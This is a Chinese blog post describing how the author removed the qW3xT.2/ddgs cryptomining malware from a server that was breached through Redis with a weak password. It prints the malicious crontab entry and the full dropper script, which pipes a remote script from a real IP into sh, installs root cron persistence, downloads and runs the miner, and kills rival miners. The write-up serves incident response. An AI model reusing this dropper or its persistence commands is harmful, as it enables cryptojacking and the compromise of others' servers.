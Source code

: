 ```yaml
---
title: 记一次挖矿病毒处理qW3xT.2
date: 2018-08-12 09:59:32
tags: [Linux,problem,qW3xT,hack]
categories: [server]
---
```


## 问题发现及解决

​	在ucloud使用redis，开启了6379端口，但是当时并没有对redis的密码进行设置复杂的设置，设置的为123456。

使用top命令查询，发现cpu异常占用过高。99%以上

![1536317606280](https://oss.fenghong.tech/tapd_23280401_1536318583_22.png)

​	qW3xT.2程序和ddgs.3013程序，看起来就不是正常的程序。google了一下，发现是美国的一个挖矿程序。

​	进入/tmp文件夹下。发现qW3xT.2文件，删除。之后kill掉qW3xT.2该进程，但是一段时间之后，发现该行程又重新启动。

​	一段时间之后，删除的文件重新生成，dds和挖矿的进程又重新执行。此时怀疑是否有计划任务，此时查看计划任务的列表

```
]# find / -name qW3xT.2
]# find / -name ddgs.3013
]# crontab -l 
*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh
]# cd /var/spool/cron/
]# rm -rf * 	
]# crontab -l  ##任务计划清除完毕。
```

​	分析一下挖矿脚本

```
]# curl -fsSL http://149.56.106.215:8000/i.sh | sh

export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "" > /var/spool/cron/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/root
echo "*/15 * * * * wget -q -O- http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/root

mkdir -p /var/spool/cron/crontabs
echo "" > /var/spool/cron/crontabs/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/crontabs/root
echo "*/15 * * * * wget -q -O- http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/crontabs/root

ps auxf | grep -v grep | grep /tmp/ddgs.3013 || rm -rf /tmp/ddgs.3013
if [ ! -f "/tmp/ddgs.3013" ]; then
    wget -q http://149.56.106.215:8000/static/3013/ddgs.$(uname -m) -O /tmp/ddgs.3013
    curl -fsSL http://149.56.106.215:8000/static/3013/ddgs.$(uname -m) -o /tmp/ddgs.3013
fi
chmod +x /tmp/ddgs.3013 && /tmp/ddgs.3013

ps auxf | grep -v grep | grep Circle_MI | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep get.bi-chi.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep hashvault.pro | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep nanopool.org | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep minexmr.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep /boot/efi/ | awk '{print $2}' | xargs kill
#ps auxf | grep -v grep | grep ddg.2006 | awk '{print $2}' | kill
#ps auxf | grep -v grep | grep ddg.2010 | awk '{print $2}' | kill
```

​	解决redis入口问题，因为最开始没有设置密码，所以首先修改redis.conf。设置密码，然后重启redis。

## 总结

​	知名应用程序的端口应避免使用默认端口，认证密码应稍微复杂，避免使用888888,123456等简单密码。

